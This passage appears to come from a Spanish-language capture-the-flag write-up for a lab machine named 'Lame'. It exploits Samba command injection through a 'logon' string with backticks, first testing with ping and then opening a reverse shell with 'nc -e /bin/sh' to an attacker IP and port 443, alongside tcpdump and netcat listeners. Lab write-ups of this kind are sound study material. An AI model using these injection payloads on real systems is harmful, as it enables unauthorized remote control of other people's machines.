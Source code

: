 Realizamos la siguiente petición para probar si nos funciona el código, realizando un envío de una traza ICMP.

```bash
logon "/=`nohup ping 10.10.14.39`"
```

Y en segundo plano colocamos a escuchar el siguiente comando.

```bash
sudo tcpdump -i tun0 icmp
```

Y como se puede comprobar se tiene ejecución de código remoto a través de la maquina entonces procedemos a explotar esta vulnerabilidad.

![img](./img/lame/Pasted%20image%2020240715170204.png)

Ahora ejecutamos el siguiente comando para poder tener un acceso remoto a la maquina a través de una `revershell`.

```bash
logon "/=`nohup nc -e /bin/sh 10.10.14.39 443`"
```

Y colocamos a escuchar otra shell con el siguiente comando.

```bash
sudo nc -nlvp 443
```
